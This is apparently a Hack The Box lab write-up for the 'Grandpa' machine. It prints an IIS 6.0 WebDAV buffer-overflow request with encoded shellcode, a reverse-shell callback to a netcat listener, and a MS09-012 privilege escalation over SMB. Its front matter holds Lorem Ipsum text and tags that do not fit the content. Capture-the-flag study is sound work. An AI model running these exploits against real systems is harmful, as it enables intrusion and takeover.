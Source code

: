 ```yaml
---
layout: single
title: Grandpa - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-26
classes: wide
header:
  teaser: /assets/images/htb-writeup-grandpa/grandpa_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-grandpa/grandpa_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:/git/htb/grandpa]# nmap -Pn -n -sCV 10.10.10.14 --open                                                                      (master✱)
    PORT   STATE SERVICE VERSION
    80/tcp open  http    Microsoft IIS httpd 6.0
    | http-methods:
    |_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
    |_http-server-header: Microsoft-IIS/6.0
    |_http-title: Under Construction
    | http-webdav-scan:
    |   Server Type: Microsoft-IIS/6.0
    |   WebDAV type: Unknown
    |   Server Date: Wed, 03 Mar 2021 10:09:58 GMT
    |   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
    |_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

  DIRB:
  + http://10.10.10.14/_private (CODE:403|SIZE:1529)
  ==> DIRECTORY: http://10.10.10.14/_vti_bin/
  ==> DIRECTORY: http://10.10.10.14/images/

  NIKTO:
  + Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
  + Uncommon header 'ms-author-via' found, with contents: MS-FP/4.0,DAV


2. WebDAV is open and the webserver is running IIS 6.0. Lets run davtest to see if we can upload any files.

    [root:/git/htb/grandpa]# davtest -url http://10.10.10.14/                                                                         (master✱)
      ********************************************************
       Testing DAV connection
      OPEN		SUCCEED:		http://10.10.10.14
      ********************************************************
      NOTE	Random string for this session: OXxuoxrUU
      ********************************************************
       Creating directory
      MKCOL		FAIL
      ********************************************************
       Sending test files
      PUT	cfm	FAIL
      PUT	pl	FAIL
      PUT	php	FAIL
      PUT	txt	FAIL
      PUT	html	FAIL
      PUT	cgi	FAIL
      PUT	asp	FAIL
      PUT	shtml	FAIL
      PUT	jhtml	FAIL
      PUT	jsp	FAIL
      PUT	aspx	FAIL

      *************************


3. Look for IIS 6.0 exploits.

  [root:/git/htb/grandpa]# searchsploit iis 6.0                                                                                     (master✱)
    ----------------------------------------------------------------------------------------------------------- ---------------------------------
     Exploit Title                                                                                             |  Path
    ----------------------------------------------------------------------------------------------------------- ---------------------------------
    --- snip ---
    Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow                                   | windows/remote/41738.py

  Trying the exploit gives nothing. Continue to google for IIS 6.0 reverse and I find a script that looks promising, run it.

  [root:/git/htb/grandpa]# python iis6_rev.py 10.10.10.14 80 10.10.14.8 4488                                                        (master✱)
    PROPFIND / HTTP/1.1
    Host: localhost
    Content-Length: 1744
    If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>

  [root:/git/htb/grandpa]# rlwrap nc -lvnp 4488                                                                                     (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.8] from (UNKNOWN) [10.10.10.14] 1031
    Microsoft Windows [Version 5.2.3790]
    (C) Copyright 1985-2003 Microsoft Corp.

    c:\windows\system32\inetsrv> whoami
      nt authority\network service


4. We are unable to read both user and root. Lets try the same exploit as Granny, MS09-012:

    [root:/srv/pub-share]# cp /opt/windows-kernel-exploits/MS09-012/pr.exe .
    [root:/srv/pub-share]# chmod +x pr.exe
    [root:/srv/pub-share]# smbserver.py share .


    C:\Documents and Settings> //10.10.14.8/share/pr.exe "whoami"
      /xxoo/-->Build&&Change By p
      /xxoo/-->This exploit gives you a Local System shell
      /xxoo/-->Got WMI process Pid: 1828
      begin to try
      /xxoo/-->Found token SYSTEM
      /xxoo/-->Command:whoami
      nt authority\system

    C:\Documents and Settings> //10.10.14.8/share/pr.exe "type Harry\Desktop\user.txt"
      /xxoo/-->Build&&Change By p
      /xxoo/-->This exploit gives you a Local System shell
      /xxoo/-->Got WMI process Pid: 1828
      begin to try
      /xxoo/-->Found token SYSTEM
      /xxoo/-->Command:type Harry\Desktop\user.txt
      bdff5ec67c3cff017f2bedc146a5d869

    C:\Documents and Settings> //10.10.14.8/share/pr.exe "type Administrator\Desktop\root.txt"
      /xxoo/-->Build&&Change By p
      /xxoo/-->This exploit gives you a Local System shell
      /xxoo/-->Got WMI process Pid: 1828
      begin to try
      /xxoo/-->Found token SYSTEM
      /xxoo/-->Command:type Administrator\Desktop\root.txt
      9359e905a2c35f861f6a57cecf28bb7b



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1.


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

IIS 6.0 Reverse Shell:
  https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269
